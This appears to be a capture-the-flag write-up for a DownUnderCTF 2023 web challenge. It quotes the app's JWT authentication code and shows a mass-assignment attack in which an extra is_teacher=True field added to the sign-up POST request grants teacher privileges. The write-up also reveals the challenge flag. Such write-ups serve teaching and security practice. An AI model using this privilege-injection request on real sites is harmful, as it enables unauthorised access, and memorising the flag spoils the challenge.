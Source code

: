 # grades\_grades\_grades (easy)
Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

https://web-grades-grades-grades-c4627b227382.2023.ductf.dev

## Files
grades\_grades\_grades.tar.gz

## Solution
The website brings us to page where we can sign up and got shown some grades. Typing in random data shows the following:
[Logged in](images/grades_grades_grades_0.png)

We can see that we got the Student Role _Student_ assigned.

Taking a look at the source code (auth.py), we can see that the site generates a JWT Token to authenticate ourself:
```python
def create_token(data):
    token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
    return token

def token_value(token):
    decoded_token = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
    return decoded_token['stu_num'], decoded_token['stu_email'], decoded_token.get('is_teacher', False)

[...]
```
We have no choice to enter our role, but it seems to be generated under the key `is_teacher`.

If we look fourther we find the following function:
```python
def is_teacher_role():
    # if user isn't authed at all
    if 'auth_token' not in request.cookies:
        return False
    token = request.cookies.get('auth_token')
    try:
        data = decode_token(token)
        if data.get('is_teacher', False):
            return True
    except jwt.DecodeError:
        return False
    return False
```
This means, that if the key isn't set, it returns `False`.

In the routes.py this function is called to check our role:
```python
[...]

def signup():

    # make sure user isn't authenticated
    if is_teacher_role():
        return render_template('public.html', is_auth=True, is_teacher_role=True)
    elif is_authenticated():
        return render_template('public.html', is_auth=True)

[...]
```

Since we can't manipulate the JWT Token, because the encryption is pretty safe, we could just set the key in the POST request. With BurpSuit we can generate the following request:
```
POST /signup HTTP/2
Host: web-grades-grades-grades-c4627b227382.2023.ductf.dev

[...]

stu_num=test1&stu_email=test%40test&password=test&is_teacher=True
```
The website responses with `/?is_auth=True` and show up the already known interface, but with the _Teacher_ role:
[Teacher Role](images/grades_grades_grades_1.png)

Know we have another tab called 'GRADING TOOL'. Here we can find our flag: `DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}`
[Flag](images/grades_grades_grades_2.png)
